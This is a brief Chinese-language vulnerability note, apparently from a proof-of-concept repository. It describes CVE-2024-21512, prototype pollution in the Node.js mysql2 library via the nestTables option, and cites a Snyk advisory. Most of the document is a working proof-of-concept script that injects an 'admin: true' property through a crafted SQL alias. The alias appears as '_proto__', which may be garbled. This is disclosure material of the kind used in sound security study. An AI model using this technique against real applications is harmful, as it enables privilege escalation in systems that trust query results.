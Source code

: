 ## mysql2原型污染漏洞(CVE-2024-21512)

MySQL2 3.9.8 错误的版本中存在一个缺陷。该问题是由于使用 nestTables 时提交的字段和表用户输入清理不当而导致的实例污染。

## poc

```
const mysql = require('mysql2');
const connection = mysql.createConnection({
host: '127.0.0.1',
user: 'root',
database: 'test',
password: 'root',
});

let query_data = {
sql: `SELECT CAST('{"admin":true}' AS JSON)_proto__;`,
nestTables: "_",
};

connection.query(query_data, (err, results) => {

if (err) throw err;
console.log(Object.getPrototypeOf(results[0]));
console.log(results[0].admin);
});

connection.end();
```

## 漏洞来源

- https://security.snyk.io/vuln/SNYK-JS-MYSQL2-6861580